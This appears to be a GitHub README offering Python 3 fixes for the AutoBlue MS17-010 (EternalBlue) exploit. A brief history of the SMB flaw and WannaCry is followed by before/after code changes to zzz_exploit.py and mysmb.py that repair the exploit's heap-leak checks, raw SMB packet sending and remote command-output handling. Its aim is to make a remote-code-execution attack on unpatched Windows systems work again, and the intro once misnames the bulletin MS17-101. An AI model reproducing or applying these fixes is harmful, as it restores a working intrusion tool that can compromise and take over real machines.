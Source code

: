 # AutoBlue MS17-010 Python 3 Fix

MS17-010 is a security flaw in Microsoft Windows operating systems that was discovered in March 2017. This vulnerability allows remote attackers to execute arbitrary code on a target system by sending specially crafted packets over the network. The EternalBlue exploit, developed by the U.S. National Security Agency (NSA) and leaked by the hacking group Shadow Brokers in April 2017, takes advantage of the MS17-101 vulnerability, specifically the flaw in the Server Message Block (SMB) protocol, to remotely execute code on a target system, and potentially gaining full control over the system. EternalBlue gained notoriety for its usage in the WannaCry ransomware attack in May 2017, which affected hundreds of thousands of computers worldwide. Microsoft released a patch to fix the vulnerability shortly after it was discovered.

This repo provides suggestions to fix the Python 3 version of the AutoBlue-MS17-010 Exploit Code, specifically addressing the issue related to the interaction of variables with `bytes` and `str` types in the Python scripts `mysmb.py` and `zzz_exploit.py`.

The original repository containing all the exploit files can be accessed at: https://github.com/3ndG4me/AutoBlue-MS17-010

### The suggested changes for `zzz_exploit.py`:

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    324        info['FRAG_POOL_SIZE'] = ord(leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ]) * X86_INFO['POOL_ALIGN']
    ---
    Modified:
    324        info['FRAG_POOL_SIZE'] = leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ] * X86_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    328        info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
    ---
    Modified:
    328        info['FRAG_POOL_SIZE'] = leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ] * X64_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` to join the `reqs` elements:
    ```python
    Original:
    399        conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
    ---
    Modified:
    399        conn.send_raw(req1[-8:] + req2 + req3 + b''.join(reqs))
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
    ---
    Modified:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != b'Frag':
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    429        if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ---
    Modified:
    429        if leakData[0x4:0x8] != b'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ```

### The suggested changes for `mysmb.py`:

- Don't need to import `smbserver`, just remove it:
    ```python
    Original:
    3          from impacket import smb, smbconnection, smbserver
    ---
    Modified:
    3          from impacket import smb, smbconnection
    ```

- Don't need to import `ConfigParser`, just remove it:
    ```python
    Original:
    9          try:
    10             import ConfigParser
    11         except ImportError:
    12             import configparser as ConfigParser
    ```

- Don't need to define the values below, just remove it:
    ```python
    Original:
    17         SMBSERVER_DIR   = '__tmp'
    18         DUMMY_SHARE     = 'TMP'
    ```

- Verify if `data` need to be converted to `bytes`:
    ```python
    Original:
    89         transData += (b'\x00' * padLen) + str.encode(data)
    ---
    Modified:
    83         if (type(data) == bytes):
    84             transData += (b'\x00' * padLen) + data
    85         else:
    86             transData += (b'\x00' * padLen) + data.encode('utf-8')
    ```

- Substitute `%COMPUTERNAME%` by localhost address `127.0.0.1`:
    ```python
    Original:
    420        self.__output = '\\\\%COMPUTERNAME%\\{}\\{}'.format(self.__share,self.__outputFilename)
    ---
    Modified:
    417        self.__output = '\\\\127.0.0.1\\{}\\{}'.format(self.__share,self.__outputFilename)
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    483        self.prompt = self.__outputBuffer.decode(errors='replace').replace('\r\n','') + '>'
    ---
    Modified:
    489        self.prompt = self.__outputBuffer.decode().replace('\r\n','') + '>'
    ```

- Don't need to convert `fd.read()` to `bytes`:
    ```python
    Original:
    502        output_callback(fd.read().encode('utf-8'))
    ---
    Modified:
    499        output_callback(fd.read())
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    528        print(self.__outputBuffer.decode(errors='replace'))
    ---
    Modified:
    525        print(self.__outputBuffer.decode())
    ```

- Remove third argument in `smbConfig.set()`:
    ```python
    Original:
    566        smbConfig.set('IPC$','path','')
    ---
    Modified:
    563        smbConfig.set('IPC$','path')
    ```
